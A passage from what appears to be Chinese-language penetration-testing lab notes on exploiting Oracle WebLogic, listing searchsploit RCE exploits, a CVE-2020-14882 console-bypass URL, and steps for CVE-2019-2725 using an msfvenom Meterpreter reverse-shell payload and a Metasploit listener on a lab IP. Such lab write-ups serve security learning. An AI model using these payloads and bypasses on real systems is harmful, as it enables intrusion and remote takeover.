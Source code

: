         Oracle Weblogic Server 10.3.6.0 / 12.1.3.0 / 12.2.1.2 / 12.2.1.3 - Deserialization Remote Command Execution                                                                     | multiple/remote/44553.py
        Oracle WebLogic Server 10.3.6.0.0 / 12.x - Remote Command Execution                                                                                                             | multiple/remote/43392.py
        WebLogic Server 10.3.6.0.0 / 12.1.3.0.0 / 12.2.1.3.0 / 12.2.1.4.0 / 14.1.1.0.0 - Unauthenticated RCE via GET request                                                            | java/webapps/48971.py
        -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
        ```
        
        存在远程命令执行
        
    - weblogic权限绕过（CVE-2020-14882）
        
        ```python
        http://192.168.111.80:7001/console/css/%252e%252e%252fconsole.portal
        ```
        
        能直接进入后台，但是权限很低，无法利用
        
    - CVE-2019-2725 反序列化远程代码执行
        1. 拉取上面`searchexploit` 的搜索到的`46780.py` ，然后跟根据文件内部`usage`食用
            
            ```python
            # Script Usage:
            # python exploit.py http://IP:PORT/_async/AsyncResponseServiceHttps
            # msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=1234 -f psh-cmd > exploit.ps1
            # Add the powershell command in the variable
            ```
            
        2. 先通过`msfvenom`生成`payload`文件
            
            ```python
            msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.111.150 LPORT=1234 -f psh-cmd > exploit.ps1
            ```
            
            然后将文件`exploit.ps1`里面的内容替换到`46780.py` 的`exploit`变量中的
            
        3. `kali`开启监听
            
            ```python
            msf6 > use exploit/multi/handler 
            msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
            msf6 exploit(multi/handler) > set lhost 192.168.111.150
            msf6 exploit(multi/handler) > set lport 1234
            msf6 exploit(multi/handler) > run
            ```
            